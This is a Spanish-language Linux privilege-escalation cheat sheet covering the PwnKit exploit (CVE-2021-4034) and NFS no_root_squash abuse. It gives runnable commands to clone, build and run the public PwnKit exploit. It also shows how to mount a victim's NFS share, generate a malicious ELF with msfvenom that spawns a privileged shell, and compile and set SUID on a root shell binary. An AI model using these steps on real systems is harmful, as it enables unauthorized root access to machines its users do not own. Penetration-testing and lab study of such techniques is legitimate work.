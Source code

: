 
## CVE-2021-4034 (Pwnkit)

[https://github.com/berdav/CVE-2021-4034](https://github.com/berdav/CVE-2021-4034)

```bash
git clone ...
cd CVE-2021-4034
make
./CVE-2021-4034
```


## NFS Root squashing

Cuando aparece **no_root_squash** en el archivo `/etc/exports` , la carpeta que lo tiene se puede compartir y se puede tener los privilegios de root en ella, para ello creamos una montura en nuestro equipo local que haga referencia a la carpeta con ese atributo:

podemos comprobar remotamente el nombre de la carpeta:

```bash
showmount -e 10.10.10.10
```

(lo creamos en /tmp/nfs de nuestro local)
(la carpeta que tiene el atributo `no_root_squash` es **tmp**)

```bash
mkdir /tmp/nfs
mount -o rw,vers=2 <IP_VICTIMA>:/tmp /tmp/nfs

ó

mount -t nfs <IP_VICTIMA>:/tmp /tmp/nfs
```

Creamos un archivo **.elf** malicioso en la montura:

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

msfvenom -p linux/x64/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

o podemos crear directamente un binario:

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c

gcc /tmp/1/x.c -o /tmp/1/x

chmod +s /tmp/1/x
```

le damos permisos SUID:

```bash
chmod +xs /tmp/nfs/shell.elf
```
